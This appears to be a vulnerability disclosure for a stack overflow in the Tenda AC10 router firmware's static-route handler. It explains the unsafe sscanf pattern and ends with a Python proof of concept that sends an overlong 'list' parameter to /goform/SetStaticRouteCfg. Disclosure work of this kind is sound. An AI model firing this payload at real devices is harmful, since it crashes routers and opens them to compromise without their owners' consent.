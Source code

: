 # Tenda AC10 v16.03.10.20 fromSetRouteStatic

## Overview

- Manufacturer's website information：https://www.tenda.com.cn/

- Firmware download website: https://www.tenda.com.cn/material/show/103684

## Affected version

AC10 v4.0 V16.03.10.20

## Vulnerability details

The Tenda AC10 v4.0 V16.03.10.20 firmware has a stack overflow vulnerability in the `fromSetRouteStatic` function. The `dest` variable receives the `list` parameter from a POST request and is later assigned to function `save_staticroute_data`. 

![1735808232041](/img/1735808232041.png)

In the `save_staticroute_data` function, the `a2` (the value of `list`) is passed to `v5` and formatted by the `sscanf` function and in the form of `%[^,],%[^,],%[^,],%s`. This greedy matching mechanism is not secure, as long as the size of the data we enter is larger than the size of `v13, v14, v15, v16`, it will cause a stack overflow.

![1735808527617](/img/1735808527617.png)

![1735808341956](/img/1735808341956.png)

The user-provided `list` can trigger this security vulnerability.

## POC

```python
import requests
from pwn import*

url = "http://192.168.1.100/goform/SetStaticRouteCfg"
payload = "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa,a,a,aa"

data = {"list": payload}
response = requests.post(url, data=data)
print(response.text)
```

![1735808487726](/img/1735808487726.png)
